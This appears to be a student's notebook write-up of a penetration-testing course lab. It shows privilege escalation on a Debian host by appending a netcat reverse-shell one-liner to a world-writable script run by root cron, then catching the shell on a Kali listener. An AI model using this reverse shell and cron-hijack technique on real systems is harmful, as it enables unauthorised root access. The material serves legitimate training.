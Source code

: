 18.3.2.1

# 18.3.2.1
## 18.3.2.1.1. Log in to your Debian client as an unprivileged user and attempt to elevate your privileges to root using the above technique.

SSH into the Debian client as a standard user
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/18_privilegeEscalation$ ssh student@192.168.214.44
student@192.168.214.44's password: 
Linux debian 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan 21 09:58:49 2020 from 192.168.118.4
student@debian:~$ whoami
student
student@debian:~$ 
```

Search for installed cron jobs by inspecing **/var/log/cron.log** for running cron jobs. We see that there is acron job executed in the context of the root user.
```plaintext
student@debian:~$ grep "CRON" /var/log/cron.log
Oct  3 17:30:01 debian CRON[1594]: (root) CMD (/var/scripts/user_backups.sh)
Oct  3 17:35:01 debian CRON[1689]: (root) CMD (/var/scripts/user_backups.sh)
student@debian:~$
```

We know the location is /var/scripts/user_backups.sh. Let's inspect the script.
```plaintext
student@debian:~$ cat /var/scripts/user_backups.sh 
#!/bin/bash

cp -rf /home/student/ /var/backups/student/
student@debian:~$ 
```

View the permissions on user_backups.sh. It is writable by every local user.
```plaintext
student@debian:~$ ls -lah /var/scripts/user_backups.sh 
-rwxrwxrwx 1 root root 57 Mar 10  2020 /var/scripts/user_backups.sh
student@debian:~$
```

Edit user_backups.sh and add a reverse shell one-liner.
```plaintext
student@debian:~$ cd /var/scripts
student@debian:/var/scripts$ echo >> user_backups.sh
student@debian:/var/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.214 4444 >/tmp/f" >> user_backups.sh
student@debian:/var/scripts$ cat user_backups.sh 
#!/bin/bash

cp -rf /home/student/ /var/backups/student/

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.214 4444 >/tmp/f
```

Setup a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
```

At the most, we will wait for 5 minutes since user_backups.sh is supposed to run every 5 minutes. Notice we get a shell when the cron job runs
![7b8324ba331919126e0789a95bf810c1.png](:/e608640d1f834f1e8f85bdf073bf613c)









id: d347225f5c01413da358ce6535dbc1a6
parent_id: 67568de2e6bb44c59cd34b4fc8e653bc
created_time: 2020-10-02T10:22:17.732Z
updated_time: 2020-10-03T21:58:38.298Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T10:22:17.732Z
user_updated_time: 2020-10-03T21:58:38.298Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1